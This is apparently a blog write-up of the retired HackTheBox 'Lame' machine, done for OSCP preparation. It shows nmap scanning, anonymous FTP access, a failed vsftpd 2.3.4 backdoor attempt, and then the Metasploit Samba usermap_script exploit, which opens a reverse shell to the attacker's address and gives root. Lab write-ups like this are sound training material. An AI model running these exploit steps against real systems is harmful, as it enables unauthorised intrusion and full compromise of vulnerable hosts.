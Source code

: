 ```yaml
---
title: Lame
date: 2023-01-19 03:33:00 -5000
categories: [OSCP Prep,HTB Linux Retired]
tags: [Network,Outdated Software, Security Tools, Remote Code Execution, SAMBA, Common Services]
image:
  path: /Assets/Pictures/Lame.webp
  lqip: data:image/webp
---
```


This is a retired box from [HackTheBox(HTB)](https://app.hackthebox.com/machines/Lame/). Being part of TJnull's list for OSCP Preparation. I had to tackle it.

# Intelligence Gathering

Let’s look at open ports.

```bash
PORT    STATE SERVICE      REASON
21/tcp  open  ftp          syn-ack ttl 63
22/tcp  open  ssh          syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63
```
{: .nolineno }

let’s get the service version and run some default nmap script of these open ports.

```bash
PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 63 vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.8
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OS: Unix

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 59488/tcp): CLEAN (Timeout)
|   Check 2 (port 31947/tcp): CLEAN (Timeout)
|   Check 3 (port 15886/udp): CLEAN (Timeout)
|   Check 4 (port 40169/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)
```
{: .nolineno }

# Enumeration

## FTP Enumeration

With FTP, there is a way to log in with default credentials `anonymous:anonymous`. As shown below, these creds gave us access to the victim’s FTP server.

```bash
➜  ftp 10.10.10.3
Connected to 10.10.10.3.
220 (vsFTPd 2.3.4)
Name (10.10.10.3:retr0x01): anonymous
331 Please specify the password.
Password: **anonumous(Not shown on the screen)**
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```
{: .nolineno }

Although we logged in, we were not able to find anything on the FTP server.

Let’s find the vulnerability belonging to the version of the service we found earlier.  After some googling we found the exploit for this version of FTP.

```bash
➜  searchsploit vsftp
--------------------------------------------------------------------------------- ------------------------------
 Exploit Title                                                                    |  Path
--------------------------------------------------------------------------------- ------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption                    | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)                    | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)                    | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                                  | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution                                         | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                            | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                                           | multiple/remote/49719.py
--------------------------------------------------------------------------------- ------------------------------
```
{: .nolineno }

We have two ways to exploit this vulnerability. Let’s get it in our host and exploit it.

```bash
➜  searchsploit vsftp -m 49757
[!] Could not find EDB-ID #

  Exploit: vsftpd 2.3.4 - Backdoor Command Execution
      URL: https://www.exploit-db.com/exploits/49757
     Path: /snap/searchsploit/62/opt/exploitdb/exploits/unix/remote/49757.py
    Codes: CVE-2011-2523
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/Lame/Exploitation/vsftpd_2.3.4_Exploit/49757.py
```
{: .nolineno }

The exploit did not seem to work manually. Let’s go with the automated way, using the metasploit framework (MSF).

```bash
#Firstly, we search for the exploit on msf
msf6 > search vsftp
#Secondly, we use the exploit
msf6 > use 0
#Third, we check the options needed to run the exploit
msf6 > show options
#Fourth, we set the needed arguments
msf6 > set rhosts 10.10.10.3
#Finally we run the exploit
msf6 > exploit
```
{: .nolineno }

After waiting for some time, the exploit did not run successfully as shown here.

```bash
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```
{: .nolineno }

let’s carry on and try another service enumeration.

## SMB Enumeration

SMB or Samba, is also known to be easy to enumerate. Let’s start our enumeration on this service.
First let’s see what kind of share we have on this SMB server using smbmap.

```bash
➜  smbmap -H 10.10.10.3
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```
{: .nolineno }

As we can see using smbmap, we can check different shares and also we can know the permission we have for all the shares. From what we can see here, we have read and write access on the `/tmp` share. Let’s enumerate that share. using the regular anonymous method to  enumerate the Samba server did not get us anywhere. After some googling, we found [this](https://amolblog.com/139-tcp-open-netbios-ssn-samba-smbd-3-x-4-x/) article and it helped us exploit the vulnerability of these SMB versions.

# User & Privesc

This was lame for a reason, because this vulnerability gives root access right off the bat. So no need to gain user first and try to escalate privileges. Just getting in with super user privileges.

```bash
#Firstly, we search for the exploit on msf
msf6 > search samba 3
#Secondly, we use the exploit
msf6 > use exploit/multi/samba/usermap_script
#Third, we check the options needed to run the exploit
msf6 > show options
#Fourth, we set the remote host
msf6 > set rhosts 10.10.10.3
#Fifth, we set our local interface or address
msf6 > set lhost tun0
#Finally, run the exploit
msf6 > exploit
#Results
msf6 exploit(multi/samba/usermap_script) > exploit 

[*] Started reverse TCP handler on 10.10.16.8:4444 
[*] Command shell session 1 opened (10.10.16.8:4444 -> 10.10.10.3:55027) at 2023-01-19 03:17:00 -0600

whoami
root
pwd
/
```
{: .nolineno }

The box is done, Since we have the higher privilege there is nothing else to do at this point expect navigate and get the differents flag. It was lame because of the rabbit hole and the exploitation. But a great box overall.

Thanks for reading me, enjoy !